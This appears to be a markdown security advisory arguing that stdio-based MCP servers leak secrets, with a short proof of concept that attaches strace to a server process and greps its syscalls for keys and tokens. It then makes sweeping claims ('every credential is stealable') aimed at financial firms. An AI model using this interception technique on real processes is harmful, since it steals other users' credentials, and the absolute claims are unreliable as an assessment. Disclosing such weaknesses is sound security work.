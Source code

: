 ## Proof of Concept

```bash
# 1. Start MCP server normally
$ mcp-server --api-key=sk-secret &
[1] 12345

# 2. Start interception (as same user)
$ strace -p 12345 -e read,write -s 10000 2>&1 | grep -i "secret\|key\|token"
read(0, "{\"api_key\":\"sk-secret\"}", 10000) = 24

# 3. We now have the API key!
```

## The Inescapable Conclusion

1. **STDIO + Same User = No Security**
2. **Every MCP communication is interceptable**
3. **Every credential is stealable**
4. **Every command is modifiable**
5. **Every response is forgeable**

This isn't a bug - it's the fundamental architecture of MCP!

## For Financial Institutions

This means:
- Any trader can intercept any other trader's MCP on the same machine
- Any developer tool can steal production credentials
- Any malware can hijack ALL AI operations
- Audit logs mean nothing when responses are forged

**Your CISO's ban is the only sane response!**
